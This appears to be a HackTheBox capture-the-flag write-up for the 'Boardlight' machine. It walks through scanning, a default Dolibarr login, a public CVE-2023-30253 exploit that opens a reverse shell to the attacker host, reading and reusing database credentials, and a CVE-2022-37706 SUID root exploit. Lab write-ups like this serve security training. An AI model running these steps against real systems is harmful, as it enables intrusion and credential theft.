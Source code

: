 ```yaml
---
title: "Boardlight"
date: 2025-05-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Boardlight

![](../assets/Pasted%20image%2020250520183049.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.11 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 19:03 CEST
Nmap scan report for 10.10.11.11
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.30 ms 10.10.14.1
2   41.98 ms 10.10.11.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.55 seconds
```

The site at port `80` shows a template of a cybersec company.

![](../assets/Pasted%20image%2020250520191115.png)

There is an email.

![](../assets/Pasted%20image%2020250520191214.png)

Add the domain to `/etc/hosts`.

Using `wfuzz` let's discover subdomains.

```shell
$ wfuzz -c --hh 15949 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.board.htb" http://board.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://board.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000072:   200        149 L    504 W      6360 Ch     "crm"                                 

Total time: 4.428437
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 1126.582
```

Add `crm.board.htb` to `/etc/hosts`.

Navigating to that subdomain we get a Dolibarr instance `17.0.0`.

![](../assets/Pasted%20image%2020250520191647.png)

Trying `admin:admin` works.

![](../assets/Pasted%20image%2020250520192113.png)

## Initial Access

Using this exploit [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253), create a listener and execute it.

```shell
$ python exploit.py http://crm.board.htb admin admin 10.10.14.11 80             
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

```shell
$ sudo rlwrap nc -lnvp 80                       
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.11] 59606
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
```

In the Dolibarr config folder we can find MySQL credentials.

```shell
ww-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
...
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
...
```

Pivot to user `larissa` with the MySQL password.

```shell
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!

larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ whoami
whoami
larissa
```

```shell
larissa@boardlight:~$ cat user.txt
cat user.txt
06457c0df24e027ea565aedc9b0122a8
```

## Privilege Escalation

Looking at SUID bit we have Enlightenment `0.23.1`.

```
larissa@boardlight:/var/log$ enlightenment --version
ESTART: 0.00001 [0.00001] - Begin Startup
ESTART: 0.00020 [0.00020] - Signal Trap
ESTART: 0.00028 [0.00007] - Signal Trap Done
ESTART: 0.00039 [0.00011] - Eina Init
ESTART: 0.00075 [0.00036] - Eina Init Done
ESTART: 0.00084 [0.00009] - Determine Prefix
ESTART: 0.00101 [0.00017] - Determine Prefix Done
ESTART: 0.00106 [0.00005] - Environment Variables
ESTART: 0.00111 [0.00005] - Environment Variables Done
ESTART: 0.00116 [0.00005] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

There is a PE exploit via `searchsploit`.

![](../assets/Pasted%20image%2020250520213720.png)

Execute it and get root.

```shell
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Welcome to the rabbit hole :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

## Post Exploitation

Get the flag

```shell
# cat /root/root.txt                                                                                      
38da93b2c8510a48d47ca63cd514e4dd 
```
